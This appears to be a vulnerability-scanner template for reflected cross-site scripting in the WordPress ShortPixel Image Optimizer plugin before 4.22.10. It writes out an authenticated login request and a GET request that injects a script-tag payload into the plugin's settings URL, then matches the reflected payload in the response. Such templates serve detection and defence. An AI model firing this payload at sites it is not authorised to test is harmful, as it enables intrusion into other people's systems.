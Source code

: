**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress ShortPixel Image Optimizer \<4.22.10 - Cross-Site Scripting
## Description
- WordPress ShortPixel Image Optimizer 4.22.10 does not escape generated URLs before outputting them back in an attribute, leading to reflected cross-site scripting.
- severity - medium
- tags - shortpixel,authenticated,wpscan,xss,wp-plugin,wp,wordpress
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/options-general.php?page=wp-shortpixel-settings&">\<script>alert(1)\</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. &\">\<script>alert(1)\</script>&noheader=true&sp-action

**Type - word**
- part - header
- words
    1. text/html
